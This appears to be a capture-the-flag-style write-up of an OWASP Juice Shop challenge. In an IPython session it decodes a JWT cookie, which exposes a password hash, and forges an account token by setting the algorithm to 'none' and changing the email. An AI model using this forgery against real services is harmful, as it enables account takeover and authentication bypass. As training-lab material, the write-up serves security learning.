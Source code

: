 This is my first foray into JWT land, so I've got some reading up to do.

Starting with the [JSON Web Token](https://en.wikipedia.org/wiki/JSON_Web_Token) Wikipedia page seems like a good enough place.

First off, where is this thing stored? Checking the Cookies storage in the
Chrome Inspector turns up the `token` cookie. We can do some basic checks to
confirm that this is the cookie:

```
In [10]: s = 'eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MiwiZW1haWwiOiJqaW1AanVpY2Utc2gub3AiLCJwYXNzd29yZCI6ImU1NDFjYTdlY2Y3MmI4ZDEyODY0NzRmYzYxM2U1ZTQ1IiwiY3JlYXRlZEF0IjoiMjAxOC0wMy0yOSAxNDoyODo1My42ODcgKzAwOjAwIiwidXBkYXRlZEF0IjoiMjAxOC0wMy0yOSAxNDoyODo1My42ODcgKzAwOjAwIn0sImlhdCI6MTUyMjMzMzk3NywiZXhwIjoxNTIyMzUxOTc3fQ.sJdk9Xdx3E6AGx3lp640dQTbGhWX0FluQBLAB3goFyEwpCBi4PH_11qi2EMad7-kBFiYDNzE66WbUhY7IEYEIdUN1x-avdoaijZuWpPkeEgmhOwWhXkTwm7O1T3wwH5CSZ5i_1yAxAGqX0HHUx1QtrRRD-sUii0_rdISe3JSdBE'

In [11]: len(s.split('.'))
Out[11]: 3
```

From the Wiki page:

> JWTs generally have three parts: a header, a payload, and a signature.

Okay, seems we're on the right track.

```
In [14]: parts = s.split('.')

In [15]: base64.b64decode(parts[0])
Out[15]: b'{"alg":"RS256","typ":"JWT"}'
In [21]: base64.b64decode(parts[1])
---------------------------------------------------------------------------
Error                                     Traceback (most recent call last)
<ipython-input-21-5e0c367146c7> in <module>()
----> 1 base64.b64decode(parts[1])

/usr/lib/python3.5/base64.py in b64decode(s, altchars, validate)
     86     if validate and not re.match(b'^[A-Za-z0-9+/]*={0,2}$', s):
     87         raise binascii.Error('Non-base64 digit found')
---> 88     return binascii.a2b_base64(s)
     89 
     90 

Error: Incorrect padding
```

Hmm, the second part of the token *should* be Base64 decodable, but it seems
something's off with the padding. If my memory of how Base64 encoding works is
correct, I believe we can pad it with '='.

```
In [22]: base64.b64decode(parts[1]+'=')
---------------------------------------------------------------------------
Error                                     Traceback (most recent call last)
<ipython-input-22-a29920dd679d> in <module>()
----> 1 base64.b64decode(parts[1]+'=')

/usr/lib/python3.5/base64.py in b64decode(s, altchars, validate)
     86     if validate and not re.match(b'^[A-Za-z0-9+/]*={0,2}$', s):
     87         raise binascii.Error('Non-base64 digit found')
---> 88     return binascii.a2b_base64(s)
     89 
     90 

Error: Incorrect padding

In [23]: base64.b64decode(parts[1]+'==')
Out[23]: b'{"status":"success","data":{"id":2,"email":"jim@juice-sh.op","password":"e541ca7ecf72b8d1286474fc613e5e45","createdAt":"2018-03-29 14:28:53.687 +00:00","updatedAt":"2018-03-29 14:28:53.687 +00:00"},"iat":1522333977,"exp":1522351977}'
```

Nice, that worked. Okay, we're trying to forge a token for
`jwtn3d@juice-sh.op`, can we just change the email and re-encode?

Looks like simply changing the email address and re-encoding doesn't do the
trick. Let's investigate some attacks against JWT.

After Googling around a bit [this](https://www.owasp.org/index.php/JSON_Web_Token_(JWT)_Cheat_Sheet_for_Java)
OWASP JWT cheatsheet is very useful. Using the NONE hashing algorithm, changing
the email address, and re-encoding does the trick! To recap:

```
In [79]: header = base64.b64decode(parts[0]).decode('utf-8')
In [80]: payload = base64.b64decode(parts[1]+'==').decode('utf-8')
In [81]: updated_header = header.replace('RS256', 'none')
In [82]: updated_payload = payload.replace('jim@juice-sh.op', 'jwtn3d@juice-sh.op')
In [83]: b64_updated_header = base64.b64encode(str.encode(updated_header)).decode('utf-8')
In [84]: b64_updated_payload = base64.b64encode(str.encode(updated_payload)).decode('utf-8')
In [85]: token = '.'.join([b64_updated_header.strip('='), b64_updated_payload.strip('='), parts[2]])
In [86]: token
Out[86]: 'eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MiwiZW1haWwiOiJqd3RuM2RAanVpY2Utc2gub3AiLCJwYXNzd29yZCI6ImU1NDFjYTdlY2Y3MmI4ZDEyODY0NzRmYzYxM2U1ZTQ1IiwiY3JlYXRlZEF0IjoiMjAxOC0wMy0yOSAxNDoyODo1My42ODcgKzAwOjAwIiwidXBkYXRlZEF0IjoiMjAxOC0wMy0yOSAxNDoyODo1My42ODcgKzAwOjAwIn0sImlhdCI6MTUyMjMzMzk3NywiZXhwIjoxNTIyMzUxOTc3fQ.sJdk9Xdx3E6AGx3lp640dQTbGhWX0FluQBLAB3goFyEwpCBi4PH_11qi2EMad7-kBFiYDNzE66WbUhY7IEYEIdUN1x-avdoaijZuWpPkeEgmhOwWhXkTwm7O1T3wwH5CSZ5i_1yAxAGqX0HHUx1QtrRRD-sUii0_rdISe3JSdBE'
```

Copying that token string into the token Cookie in the Chrome Inspector solves
the challenge!

I'm not entirely sure why JWT doesn't include the '=' padding at the end of
its Base64 encoded parts, but that's how the token was initially presented.
